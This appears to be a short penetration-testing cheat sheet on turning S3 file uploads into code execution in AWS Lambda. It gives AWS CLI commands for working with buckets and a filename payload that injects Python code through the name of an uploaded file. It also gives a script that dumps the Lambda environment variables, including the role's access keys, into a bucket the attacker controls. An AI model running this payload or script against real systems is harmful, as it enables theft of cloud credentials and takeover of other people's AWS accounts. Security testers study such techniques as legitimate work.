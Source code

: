 # File upload to RCE

## Verify file upload

List Buckets

```
aws s3 ls
```

Upload file

```
aws s3 cp <local file> s3://<bucket>    #upload in bucket root
aws s3 cp <local file> s3://<bucket>/<path>
```

List files in bucket

```
aws s3 ls <bucket>
aws s3 ls <bucket>/<path>
```

Download file

```
aws s3 cp s3://<bucket>/<path>/<filename> .
```

## Exploit

We attempt to retrieve the Lambda environment and reveal the role Access Key. The output might be reflected in the uploaded file, another file in the same bucket or a log file.

### Malicious filenames

```
import os;dict(os.environ)
```

### Malicious script

This script executes a command and stores the output in a S3 bucket controlled by the attacker

```python
#!/usr/bin/env python3
import boto3
import time
import os

BUCKET_NAME = ""
FILE_PATH = "output.txt"

#Dump the environment variables. Feel free to change the payload if needed
output = dict(os.environ)  

#write to bucket  
s3 = boto3.client('s3')
s3.put_object(Bucket=BUCKET_NAME, Key=FILE_PATH, Body=output)
```
